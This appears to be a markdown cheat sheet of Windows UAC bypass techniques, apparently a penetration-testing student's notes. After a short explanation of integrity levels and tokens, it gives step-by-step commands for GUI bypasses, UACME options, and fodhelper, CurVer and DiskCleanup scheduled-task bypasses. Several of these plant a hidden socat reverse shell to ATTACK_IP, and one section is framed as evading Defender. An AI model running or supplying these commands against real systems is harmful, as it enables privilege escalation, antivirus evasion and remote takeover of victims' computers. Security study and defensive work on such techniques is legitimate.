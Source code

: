 # INTEGRITY LEVELS (IL)

### Low = Generally used for interaction with the Internet. Has very limited permissions.

### Medium = Assigned to standard users and Administrators' filtered tokens.

### High = Used by Administrators' elevated tokens if UAC is disabled. All administrators will always use a high IL token.

### System = Reserved for system use.

# FILTERED TOKENS

### Non-administrators: Will receive a single access token when logged in, which will be used for all tasks performed by the user. This token has Medium IL.

### Administrators: Filtered token = A token with Administrator privileges stripped, used for regular operations. This token has Medium IL.

### Elevated Token = Full admin privileges. High IL.

# GUI BASED UAC BYPASS

## msconfig

#### 1) Run 

#### 2) msconfig

#### 3) System Configutation -> Tools

#### 4) Launch cmd.exe

## azman.msc

#### 1) Run

#### 2) azman.msc

#### 3) Authorization Manager -> Help -> Help Topics

#### 4) Right-click -> View Source (Spawns notepad process)

#### 5) File -> Open

#### 6) All files

#### 7) Search cmd.exe

#### 8) Open cmd.exe

# AUTOMATION

### Tool: UACMEAkagi64.exe

#### options: 

#### 33 = fodhelper.exe

#### 34 Disk Cleanup scheduled Task

#### 70 fodhelper.exe using CurVer registry key

# AUTO-ELEVATE

### Verification

#### sigcheck64.exe -m c:\path\to\file.exe

# FODHELPER

#### 1) whoami

#### 2) net user USER | find "Local Group"

#### 3) whoami /groups | find "Label"

#### 4) set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

#### 5) set CMD="powershell -windowstyle hidden c:\tools\socat.exe TCP:ATTACK_IP:PORT EXEC:cmd.exe,pipes"

#### 6) reg add %REG_KEY% /v "DelegateExecute" /d "" /f

#### 7) reg add %REG_KEY% /d %CMD% /f

#### 8) Attacker: nc -lvp PORT 

#### 9) fodhelper.exe

#### 10) red delete HKCU\Software\Classes\ms-settings\ /f (Cleanup)

# BYPASS DEFENDER WITH FODHELPER

#### 1) set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

#### 2) set CMD="powershell -windowstyle hidden c:\tools\socat.exe TCP:ATTACK_IP:PORT EXEC:cmd.exe,pipes"

#### 3) reg add %REG_KEY% /v "DelegateExecute" /d "" /f

#### 4) reg add %REG_KEY% /d %CMD% /f & fodhelper.exe

#### 5) nc -lvnp PORT 

# IMPROVED FODHELPER EXPLOIT

#### 1) set CMD="powershell -windowstyle hidden c:\tools\socat.exe TCP:ATTACK_IP:PORT EXEC:cmd.exe,pipes"

#### 2) reg add "HKCU\Software\Classes\.jim\Shell\Open\command" /d %CMD% /f

#### 3) reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".jim" /f

#### 4) fodhelper.exe

#### 5) nc -lvp PORT

#### 6) reg delete "HKCU\Software\Classes\.jim\" /f (Cleanup)

#### reg delete "HKCU\Software\Classes\ms-settings" /f (Cleanup)

# DISK CLEANUP SCHEDULED TASK

#### 1) nc -lvp PORT 

#### 2) reg add "HKCU\Environment" /v "windir" /d "cmd.exe -c c:\tools\socat.exe TCP:ATTACK_IP:PORT EXEC:cmd.exe,pipes &REM " /f

#### 3) schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

#### 4) reg delete "HKCU\Environment" /v "windir" /f (Cleanup)
